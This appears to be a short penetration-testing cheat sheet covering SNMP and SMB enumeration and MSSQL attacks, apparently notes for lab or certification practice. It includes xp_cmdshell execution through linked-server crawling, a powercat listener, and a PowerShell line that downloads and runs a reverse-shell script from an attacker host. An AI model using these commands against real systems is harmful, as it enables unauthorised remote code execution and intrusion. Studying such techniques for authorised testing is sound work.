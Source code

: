 ### SNMP

```bash
snmp-check ${box_ip}
```

### enum4linux

```bash
enum4linux -a ${box_ip} | tee ${loc}/${folder_names[1]}/enum4linux.md
```

### MSSQL Client

```bash
${imp_dir}/mssqlclient.py USER@${box_ip}
${imp_dir}/mssqlclient.py USER@${box_ip} -windows-auth
```

### MSSQL Enum

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-Server/

```
Get-SQLInstanceDomain

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'whoami\'" | ft
powercat -l -v -p 443 -t 1000

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'powershell iex (New-Object Net.WebClient).DownloadString(\'\'http://x.x.x.x/Invoke-PowerShellTCP.ps1\'\')\'" | ft
```

### Heidi SQL

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-HeidSQL/